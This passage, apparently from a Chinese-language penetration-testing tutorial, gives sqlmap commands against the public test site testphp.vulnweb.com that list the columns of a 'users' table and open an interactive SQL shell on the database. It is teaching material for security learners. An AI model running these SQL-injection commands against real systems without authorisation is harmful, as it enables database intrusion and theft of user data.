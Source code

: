 使用此命令，我们可以从表中获取列：

```py
$ python sqlmap.py -u [URL] -D [Database] -T [table] --columns
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" -D acuart -T users --columns
```

在这里，我们从用户表中获取列：

![](img/948d4ea1-9b96-47c7-9ad7-e817d5366bd5.png)

使用此命令，我们可以获得一个交互式 shell：

```py
$ python sqlmap.py -u [URL] --sql-shell
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --sql-shell
```

在这里，我们获得一个与数据库交互的 shell，使用 sql 语言查询：

![](img/18f7991f-639c-4f3a-8c3a-4efdafa79d07.png)
